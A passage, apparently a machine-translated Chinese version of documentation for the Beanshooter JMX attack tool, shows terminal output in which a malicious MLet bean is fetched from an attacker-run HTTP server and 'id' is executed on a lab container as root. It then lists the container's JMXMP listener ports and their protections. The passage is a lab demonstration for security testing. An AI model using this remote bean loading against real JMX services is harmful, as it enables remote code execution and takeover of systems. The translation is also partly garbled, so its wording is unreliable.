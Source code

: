 [+]启动 HTTP 服务器…完成！
[+]
[+]收到/mlet
[+]发送恶意 mlet 的请求:
[+]
[+]Class:de . qtc . TonkaBean . TonkaBean
[+]Archive:tonka-bean . jar
[+]Object:mlettokabean:name = TonkaBean，id = 1
[+]code base:http://172 . 17 . 0 . 1:8088
[+]
[+]恶意 Bean 注册成功
[qtc @ kali ~]$ Bean shooter–jmxmp 172 . 17 . 0 . 2 5555 execute id
[+]连接 JMX 服务器…完成！
[+]创建 MBeanServerConnection…完成！
[+]
[+]发送命令' id '到服务器…
[+] Servers 答案是:uid = 0(root)GID = 0(root)groups = 0(root)**

除了端口**`5555`**上的普通 *JMXMP* 监听器外，其他 *JMXMP* 监听器实现不同种类的保护:

*   端口**`5556`**–*SSL*受保护 *JMXMP*
*   港口`**5557**`–*TLS SASL/平原*受保护 *JMXMP*
*   端口`**5558**`–*TLS SASL/CRAM-MD5*受保护 *JMXMP*
*   端口`**5559**`–*TLS SASL/DIGEST-MD5*受保护 *JMXMP*
*   端口`**5560**`–*TLS SASL/NTLM*受保护 *JMXMP*

*Beanshooter* 支持所有这些类型的保护，相应的示例可以在 docker-container 的`**README.md**`中找到。

有用的提示:也可以使用 *jconsole* 通过 *JMXMP* 连接到一个正在运行的 *JMX* 代理。不是简单地指定连接的主机和端口号，而是必须使用 *JMXMP* 服务 URI `**service:jmx:jmxmp://<JMXMPHOST>:<JMXMPPORT>**`，并且必须确保 *jmxremote_optional.jar* 在您的类路径中。

**反序列化支持**

![](img//94d1ab0b54f394f9484417bf9244bed6.png)
